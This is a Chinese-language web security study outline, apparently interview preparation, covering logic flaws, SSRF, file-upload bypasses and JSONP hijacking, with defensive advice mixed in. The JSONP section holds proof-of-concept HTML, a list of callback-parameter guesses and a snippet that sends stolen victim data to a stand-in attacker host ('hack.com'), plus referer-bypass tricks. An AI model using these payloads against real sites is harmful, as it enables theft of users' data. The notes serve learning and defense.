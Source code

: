 owasp10:
漏洞原理
漏洞危害
漏洞写法
常见攻击手段 典型绕过方法

# 逻辑漏洞
1.设计金额等数据的修改
短信邮箱轰炸
密码找回这种多流程操作状态没有严格绑定

2.缺少凭证验证：
未授权访问
敏感信息泄露(枚举)

3.验证码 
没有没验证以后后端自动刷新的机制
拦截响应包后未及时刷新
可被爆破
存在测试接口
太简单可被识别算法分辨

4.密码找回
凭证泄露
接收端篡改
前后端流程状态的绑定
身份混淆
鉴权字段不满足不可预测性(token时间戳)
可以被猜解

5.cookie设计问题
cookie的校验值过于简单比如一组数字 可以被枚举
修改密码之后cookie不会发生变化
只在前端进行了简单的加密 base64(用户名) 

整改:
cookie中设定多个验证，比如自如APP的cookie中，需要sign和ssid两个参数配对，才能返回数据。
用户的cookie数据加密应严格使用标准加密算法，并注意密钥管理。
用户的cookie的生成过程中最好带入用户的密码，一旦密码改变，cookie的值也会改变。
cookie中设定session参数，以防cookie可以长时间生效。

# SSRF
危害:从协议和语言两方面来谈
绕过
ip rebinding 30x(神奇的服务 短地址) 127.0.0.1编码 url解析 TLS 基本认证方式()

防御:
1.去除url中的特殊字符
2.判断是否属于内网ip
3.如果是域名的话，将url中的域名改为ip
4.请求的url为3中返回的url
5.请求时设置host header为ip
6.不跟随30x跳转（跟随跳转需要从1开始重新检测）

扫描器:
反连平台 替换http://协议参数值并访问远端服务器的记录判断 或者替换为本地记录访问的延时

腾讯面试:
如果一个网站中存在一处头像上传的功能，服务器要去访问用户上传头像的那个url 如何编写后端代码防止ssrf问题 
访问前对ip进行处理 
需不需要去解析图片内容?

# 文件上传 
绕过:
黑(解析.大小写 服务器配置文件) 白名单(%00截断 图片马) 条件竞争(fopen open) 编码逻辑
防御:上传到不可执行目录 白名单过滤 修改随机名称造成路径的不可预测性

# JSONP劫持和CORS配置漏洞
## 基础函数调用：
响应中回调函数被硬编码
html Poc
```
<script type="text/javascript">
    function myCallback(data) {
        ...
    }
</script>
<script src="http://www.victim.com/getData"></script>
-->响应数据为
myCallback({"data":"我是响应数据"})
```
## 对象方法调用:
ASP.NET

## URL完全可控:
回调函数出现在url中，且能完全控制。URL参数的callback是允许修改的
```
<script type="text/javascript">
    function test(data) {
        ...
    }
</script>
<script src="http://www.victim.com/callback=test"></script>
```
## URL部分可控
回调函数被拼接数字等情况
```
<script type="text/javascript">
    function jQuery12345(data) {
        ...
    }
</script>
<script src="http://www.victim.com/callback=jQuery"></script>
```
如果数字没有用硬编码
Dom循环 循环创建回调函数名+枚举字符

## URL可控不显示在请求中
这通常发生在开发者留下的“隐藏”的用于软件向后兼容的情况，或是在重构时根本就没有删除代码。
```
verysecurebank.ro/getAccountTransactions?callback=test
verysecurebank.ro/getAccountTransactions?cb=test
verysecurebank.ro/getAccountTransactions?jsonp=test
verysecurebank.ro/getAccountTransactions?jsonpcallback=test
verysecurebank.ro/getAccountTransactions?jcb=test
verysecurebank.ro/getAccountTransactions?call=test
```
## 发送数据到攻击者服务器
```
<script type="text/application">
    function test(data){
        var xhr = new XMLHttpRequest()
        var hacker = 'http://hack.com' + JSON.stringify(data)
        xhr.open("GET",hacker,true)
        xhr.send()
    }
</script>
```
数据过长可以采用post请求

## 绕过方法
Content-Type 与 X-Content-Type-Options
referer检测绕过
https托管代码
data协议 不发送referer
```
<iframe src="data:text;base64,数据...">
```
数据部分包含了回调函数定义以及请求script
下列标签允许包含data url
```
iframe (在src属性中) – Internet Explorer下不工作
embed (在src属性中) – Internet Explorer及Microsoft Edge下不工作
object (在data属性中) – Internet Explorer及Microsoft Edge下不工作
```
# CSRF:
原理
绕过
危害
与xss联动
